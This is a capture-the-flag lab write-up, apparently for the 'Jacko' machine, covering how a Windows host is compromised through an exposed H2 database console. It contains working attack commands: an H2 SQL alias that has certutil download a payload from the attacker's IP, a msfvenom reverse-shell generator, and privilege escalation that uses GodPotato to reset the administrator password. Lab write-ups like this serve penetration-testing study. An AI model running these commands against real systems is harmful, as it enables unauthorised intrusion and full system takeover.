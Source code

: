 # Jacko

OS: Windows
#Nmap

```sh
# Nmap 7.93 scan initiated Fri Aug 18 18:10:24 2023 as: nmap -sC -sV -vv --min-rate 2000 -oA openscsv -p 80,135,139,445,5040,8082,9092,49664,49665,49666,49667,49668,49669 -Pn 192.168.246.66
Nmap scan report for 192.168.246.66
Host is up, received user-set (0.031s latency).
Scanned at 2023-08-18 18:10:24 +08 for 173s

PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
8082/tcp  open  http          syn-ack H2 database http console
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc? syn-ack
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.93%I=7%D=8/18%Time=64DF4390%P=x86_64-pc-linux-gnu%r(NU
SF:LL,516,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o\
.....
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```
# Port 80

When we open port 80  we can see that it mentions H2 Database engine. `the free Java SQL database engine.`

![](port80.png)
# Port 8082 and 9092
When we open http://IP:8082 in the browser we see 

![](port8082.png)

If we click on connect we get logged in and we can see the console with the version number H2 1.4.199.

![](console.png)

When looking for an exploir or vulnerabiltiy we find:

https://www.exploit-db.com/exploits/49384

Let's try it out:

![](exploit.png)

YESSS! The exploit is working. We ran whoami and got jack\tony as a result! Now we have look for a way to get a shell on the machine.

Hmm... if we run whoami /alll we can already see that we have SeImpersonatePrivilege. But this is for later.

We generate a payload with:
```sh

┌──(kali㉿kali)-[~/PGPRACTICE/JACKO/exploit]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.218 LPORT=80 -f exe -o test.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.218/test.exe C:/users/tony/test.exe").getInputStream()).useDelimiter("\\Z").next()');

We can now run the binary C:/users/tony/test.exe in the same manner:

And YESS Here we have a shell as.... hmmm whoami is  not working

![](usershell.png)

Luckily we can execute the binary this way:

```cmd
C:\Windows\System32\whoami
jacko\tony
```

We can read the local.txt flag from the desktop of tony.

# Privilege Escalation
As already mentioned we saw that we have SeImpersonatePrivilege   which we can use to escalate our privileges.
 

```cmd
C:\Windows\System32\whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
jacko\tony S-1-5-21-3761179474-3535027177-3462755717-1001

.....


 ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
.......

ERROR: Unable to get user claims information.

C:\Program Files (x86)>
```

And from the systeminfo we could see that the the target machine has :
- an x64 architecture.
-  Microsoft Windows 10 Pro  10.0.18363 N/A Build 18363

This means we could use PrinterSpoofer to exploit this privilege. The binaries can be found here: 
https://github.com/itm4n/PrintSpoofer/releases


Hmm. no luck with this one.

![](PrintSpoofer.png)

Might be patched.

Then we will try the next: GodPotato! We wil check which version we will use by checking the .NET framework version in the ‘C:\Windows\Microsoft.NET\Framework’ directory. 

![](dirnet.png)

We will use the .NET version 4.  The binaries can be found here: https://github.com/BeichenDream/GodPotato/releases

Once we uploaded the file we can run it:

```cmd

GodPotato-NET4.exe -cmd “c:\users\tony\test.exe”
```

Ah, there is ininitially a connection but it get's constant disconnected. This is the same for a bind shell...

So, we can change the administrator password to the classic “password”:

```cmd
GodPotato-NET4.exe -cmd "net user administrator password"

....
[*] Start Search System Token
[*] PID : 776 Token:0x772  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2708
The command completed successfully.
```

Yes it worked. we can execute command using impacket-smbexec:

![](impacket.png)

From here we can get a stable shell using the shell we user earlier.

![](proof.png)











